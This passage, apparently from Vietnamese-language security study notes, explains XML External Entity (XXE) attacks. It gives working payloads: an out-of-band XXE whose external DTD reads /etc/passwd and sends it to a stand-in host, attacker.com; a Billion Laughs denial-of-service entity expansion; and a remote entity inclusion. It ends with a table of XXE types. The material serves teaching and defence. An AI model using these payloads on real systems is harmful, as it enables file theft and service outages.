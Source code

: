 ```xml
<!DOCTYPE foo [ 
  <!ENTITY % xxe SYSTEM "http://attacker.com/evil.dtd">
  %xxe;
]>
```

Ở file `evil.dtd` trên server của attacker:

```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?data=%file;'>">
%eval;
%exfil;
```

------

### **4. Denial of Service (DoS) - Billion Laughs Attack**

**Mục tiêu:** Làm parser XML bị treo hoặc sử dụng quá nhiều tài nguyên
**Payload ví dụ:**

```xml
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;">
]>
<lolz>&lol3;</lolz>
```

------

### **5. Remote File Inclusion (Inclusion từ HTTP)**

**Mục tiêu:** Parser XML tải nội dung từ một URL do attacker chỉ định
**Lưu ý:** Tùy thuộc vào parser cho phép `http://` trong ENTITY
**Payload ví dụ:**

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://attacker.com/payload.txt">]>
<foo>&xxe;</foo>
```

------

### **6. Remote Code Execution (RCE) - hiếm**

**Chỉ xảy ra nếu hệ thống combine XXE với tính năng xử lý đối tượng hoặc dùng deserialization**
=> Trường hợp hiếm và phụ thuộc vào cấu trúc backend.



**Phân loại XXE theo cách thức hoạt động:**

| Phân loại                     | Mô tả                                                        | Ví dụ                 |
| ----------------------------- | ------------------------------------------------------------ | --------------------- |
| **In-Band XXE**               | Kết quả trả về trực tiếp trong response                      | `file:///etc/passwd`  |
| **Out-of-Band XXE (OOB-XXE)** | Kết quả gửi đến attacker qua HTTP/FTP                        | `http://attacker.com` |
| **Blind XXE**                 | Không có phản hồi trực tiếp, dùng đo thời gian hoặc quan sát side effect | Trigger SSRF nội bộ   |
